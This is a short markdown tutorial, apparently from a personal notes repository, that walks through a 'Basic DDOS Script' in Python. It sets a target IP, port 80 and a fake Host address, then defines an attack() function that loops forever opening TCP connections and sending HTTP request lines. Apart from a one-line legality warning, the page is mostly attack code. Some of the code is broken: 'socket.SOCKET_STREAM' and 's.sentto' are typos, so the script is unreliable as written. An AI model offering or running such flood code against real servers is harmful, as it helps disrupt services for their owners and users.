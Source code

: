 

**Additional Resources**

* Create an Email Using Markdown: [GitHub Gist](https://gist.github.com/cleverdevil/8250082)






## Basic DDOS Script

* Distributed Denial of Service

* ***Highly illegal when you do not have permission!!!***

* Python is not the ideal language for a real DDOS attack as it does not support true multithreading

* Rough script, not optimized



**Import Dependencies**

* [**socket:**](https://docs.python.org/3/library/socket.html) low-level networking interface
* [**threading:**](https://docs.python.org/3/library/threading.html) thread-based parrallelism

```python
import socket
import threading
```



**Set Target Information**

```python
# Target IP Address to attack
target = '192.168.1.1'
# Send traffic to HTTP port
port = 80
# Fake ip address for header
fake_ip = '192.168.1.123'
```



**Define DDOS Attack**

```python
def attack():
    while True:
        # Create a new TCP socket using IPv4 addresses
        s = socket.socket(socket.AF_INET, socket.SOCKET_STREAM)
        # Connect to that target IPv4 address on the target port
        s.connect((target, port))
        s.sentto(("GET /" + target + " HTTP/1.1\r\n").encode('ascii'), (target, port))
        # Send data to the socket
        s.sendto(("Host: " + fake_ip + "\r\n\r\n").encode('ascii'), (target, port))
        s.close()
```
